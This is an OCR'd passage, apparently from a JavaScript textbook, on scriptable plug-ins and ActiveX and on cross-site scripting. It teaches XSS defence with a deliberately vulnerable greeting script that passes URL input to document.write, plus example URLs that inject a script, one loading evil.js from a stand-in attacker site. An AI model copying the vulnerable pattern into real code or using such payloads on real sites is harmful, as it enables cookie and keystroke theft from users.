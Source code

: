 Scripting Plug-ins and ActiveX Controls

Although the core JavaScript language and the basic client-side object model lack the filesystem and networking features that the worst malicious code requires, the situation is not quite as simple as it appears. In many web browsers, JavaScript is used as a「script engine」for ActiveX controls (in IE) or plug-ins (other browsers). The Flash and Java plug-ins are commonly installed examples, and they expose important and powerful features to client-side scripts.

There are security implications to being able to script ActiveX controls and plug-ins. Java applets, for example, have access to low-level networking capabilities. The Java security「sandbox」prevents applets from communicating with any server other than the one from which they were loaded, so this does not open a security hole. But it exposes the basic problem: if plug-ins are scriptable, you must trust not just the web browser’s security architecture, but also the plug-in’s security architecture. In practice, the Java and Flash plug-ins seem to have robust security and they are actively maintained and updated when security holes are discovered. ActiveX scripting has had a more checkered past, however. The IE browser has access to a variety of scriptable ActiveX controls that are part of the Windows operating system, and in the past some of these scriptable controls have included exploitable security holes.

Cross-Site Scripting

Cross-site scripting, or XSS, is a term for a category of security issues in which an attacker injects HTML tags or scripts into a target website. Defending against XSS attacks is typically the job of server-side web developers. However, client-side JavaScript programmers must also be aware of, and defend against, cross-site scripting.

A web page is vulnerable to cross-site scripting if it dynamically generates document content and bases that content on user-submitted data without first「sanitizing」that data by removing any embedded HTML tags from it. As a trivial example, consider the following web page that uses JavaScript to greet the user by name:

<script> var name = decodeURIComponent(window.location.search.substring(1)) || ""; document.write("Hello " + name); </script>

This two-line script uses window.location.search to obtain the portion of its own URL that begins with ?. It uses document.write() to add dynamically generated content to the document. This page is intended to be invoked with a URL like this:

http://www.example.com/greet.html?David

When used like this, it displays the text「Hello David」. But consider what happens when it is invoked with this URL:

http://www.example.com/greet.html?%3Cscript%3Ealert('David')%3C/script%3E

With this URL, the script dynamically generates another script (%3C and %3E are codes for angle brackets)! In this case, the injected script simply displays a dialog box, which is relatively benign. But consider this case:

http://siteA/greet.html?name=%3Cscript src=siteB/evil.js%3E%3C/script%3E

Cross-site scripting attacks are so called because more than one site is involved. Site B (or some other site C) includes a specially crafted link (like the one above) to site A that injects a script from site B. The script evil.js is hosted by the evil site B, but it is now embedded in site A, and it can do absolutely anything it wants with site A’s content. It might deface the page or cause it to malfunction (such as by initiating one of the denial-of-service attacks described in the next section). This would be bad for site A’s customer relations. More dangerously, the malicious script can read cookies stored by site A (perhaps account numbers or other personally identifying information) and send that data back to site B. The injected script can even track the user’s keystrokes and send that data back to site B.
